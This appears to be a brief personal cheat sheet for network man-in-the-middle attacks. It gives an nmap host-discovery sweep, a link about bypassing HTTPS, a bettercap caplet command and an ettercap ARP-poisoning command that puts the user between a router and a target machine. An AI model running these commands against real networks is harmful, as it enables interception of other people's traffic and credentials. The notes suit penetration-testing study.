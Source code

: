 # Bettercap
sudo nmap -sn ip/subnet

Http to https redirect with HTS

https://www.javatpoint.com/bypassing-https

sudo bettercap -iface <Interface> -caplet command.cap

sudo ettercap -T -S -i <Interface> -M arp:remote /(ip-of-router)// /(ip-of-target)//

